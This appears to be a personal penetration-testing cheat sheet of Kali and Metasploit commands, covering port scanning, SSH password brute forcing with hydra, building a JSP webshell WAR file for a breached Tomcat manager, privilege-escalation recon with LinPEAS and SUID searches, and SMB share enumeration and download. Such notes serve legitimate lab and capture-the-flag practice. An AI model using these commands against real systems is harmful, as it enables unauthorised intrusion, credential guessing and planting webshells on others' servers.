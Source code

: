 # Starting Penetration

```
msfconsole
```

To Open metasploit console

## Port Scan

```
nmap IP -sV -sC -p- --min-rate 20000
```

alternate

```
nmap IP -T4 -A -v
```

-p- to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS for TCP SYN Scan

-sV to show services related to each port


### Get Version of Service

NetCat

```
nc IP PORT
```


### Find Exploits with SearchSploit

```
searchsploit servicename version
```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



### Metadata

```
exiftool file
```

### Web Server:


#### Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

#### Replicate website on local storage

```
wget http://ip/ -r
```

#### Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## SSH

### SSH with RSA file

```
ssh -i /path/to/file user@IP
```


#### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
#!/bin/sh
wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp
rm -rf wshell
rm -f wshell.war
mkdir wshell
cp index.jsp wshell/
cd wshell
jar -cvf ../wshell.war *
```



## Attempt to Elevate permissions after entry

##### Run Inside of Meterpreter

```
run post/multi/recon/local_exploit_suggester
```

Gives readout of possible vulnerabilities of connected host

### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



### Linux Specific

whoami

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```



### Samba share

##### Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


#### Inspect Samba Share

```
smbclient //ip/sambashare
```


#### Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

